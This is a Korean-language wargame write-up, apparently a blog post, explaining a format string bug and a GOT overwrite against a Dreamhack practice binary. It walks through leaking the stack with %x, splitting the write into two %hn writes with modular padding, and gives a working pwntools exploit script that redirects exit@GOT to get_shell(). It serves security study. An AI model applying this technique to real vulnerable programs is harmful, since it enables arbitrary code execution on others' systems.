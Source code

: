 Format String Bug (FSB) - GOT overwrite(공격 방법)

format string 이란? %d, %s, %x, %c 등

%n(4byte), %hn(2byte) : store the length of print (지금까지 입력된 문자열의 개수 출력)

FSB는 %n/%hn을 활용해야한다.

(특정한 포인터나 값을 원하는 만큼 저장할 수 있음)

다만 조건이 제한적인데,

일반적으로 사용하는 printf(”%s”, buf); 등의 형식에서는 사용이 불가능하고,

printf(buf); 처럼 입력값을 바로 사용하는 경우에만 익스플로잇이 가능한다.

보통 익스플로잇할 때는 %hn을 사용한다. 

그 이유는 0x08048609를 덮으려고 하면 8048609 개 만큼을 출력해야 하기 때문에 무리이고, %hn으로 2byte씩 나눠서 출력하는 게 효율적이다.

---

![Image](/assets/img/be2/image1.png)

이미지와 같이 %x를 5번 입력하게 되면 현재 따로 설정된 인자값이 없기 때문에, 그냥 스택에서 %x를 5번 읽게 되어 스택 포인터와 코드 영역 포인터 등이 노출된다.

![Image](/assets/img/be2/image2.png)

- FSB 이전의 스택 프레임 덤프

```bash
Breakpoint 5, __printf (format=0xffffcd88 "AAAA%x %x %x %x %x\n\b\320f\374\367\b\326\377\367 ") 
```

![Image](/assets/img/be2/image3.png)

- FSB 이후의 스택 프레임 덤프

![Image](/assets/img/be2/image4.png)

해당 파일을 checksec으로 확인해보면 No PIE이기 때문에 로컬에서 구한 바이너리 값이 그대로 적용된다는 것을 알 수 있다.(ASLR 적용 X) 

익스에 성공하기 위해  해야할 것은 exit@GOT 주소를 찾아서 해당 값을 get_shell의 주소로 덮는 것이다.

따라서 알아내야 할 정보는 get_shell()함수의 위치와 exit@GOT의 주소이다.

### get_shell() : 0x8048609

![Image](/assets/img/be2/image5.png)

### exit@GOT : 0x804a024

![Image](/assets/img/be2/image6.png)

![Image](/assets/img/be2/image7.png)

0x804a024를 x/4xb로 확인해보면 값이

0x804a024 : 0x76

0x804a025 : 0x84

0x804a026 : 0x04

0x804a027 : 0x08

로 저장된다는 것을 알 수 있고, 여기서 상위 2바이트는 0x0804a026 부터, 하위 2바이트는 0x0804a024 부터 덮으면 된다는 것을 알 수 있다.

get_shell()의 주소와 exit@GOT의 주소가 일단 804까지는 똑같기 때문에 a024를 8609로 덮어야한다. 

→라고 생각했는데 안정성 때문에 0804까지 덮는 게 정석이라고 한다.

즉, %hn을 두번 사용해서 상위 2바이트와 하위 2바이트로 나눠 입력하여 전체 주소를 덮어줘야한다.

따라서 페이로드는

payload = p32(exit_got + 2) + p32(exit_got) + "get_shell의 주소값 - 0x8"

가 된다.

여기서 “get_shell의 주소값 - 0x8"을 하는 이유는 앞에 입력한 p32(exit_got + 2) + p32(exit_got)의 8byte만큼의 길이도 포함해서 계산을 해야 하기 때문이다.

0x8609 (34313)을 덮고나면, 두 번째로는 0x0804 (2052)를 덮어야 하는데, 이미 34313만큼 출력된 상태이다.

→여기서 궁금했던 건 두 번째 %hn이 첫 번째 %hn의 출력 누적 수의 영향을 받는가?였는데 답은 YES 였다.

→그치만 서로 다른 메모리(상위,하위)를 덮기 때문에 서로의 메모리를 건드리진 않는다.

우리가 덮을 때 사용하는 %hn은 하위 2바이트(16비트)를 덮는데, 16비트의 최대 크기는 65536(0x10000) 이고, 이만큼 출력하면 0으로 돌아가는 특징이 있다.

```bash
(upper(목표) - lower) % 0x10000
= (0x0804 - 0x8609) % 0x10000
= (2052 - 34313) % 65536
= (-32261) % 65536
= 33275
```

따라서 해당 연산을 하게 되면 원하는 값을 넣을 수 있다.

### exploit.py

```bash
from pwn import *

p = remote('host3.dreamhack.games', 20105)

get_shell = 0x08048609
exit_got = 0x0804a024

lower = get_shell & 0xffff   
upper = (get_shell >> 16) & 0xffff  

addr1 = p32(exit_got)
addr2 = p32(exit_got + 2)

written = 8

pad1 = lower - written
payload = addr1 + addr2
payload += f"%{pad1}c%1$hn".encode()

pad2 = (upper - lower) % 0x10000
payload += f"%{pad2}c%2$hn".encode()

print(f"Payload length: {len(payload)}")
p.sendline(payload)
p.interactive()
```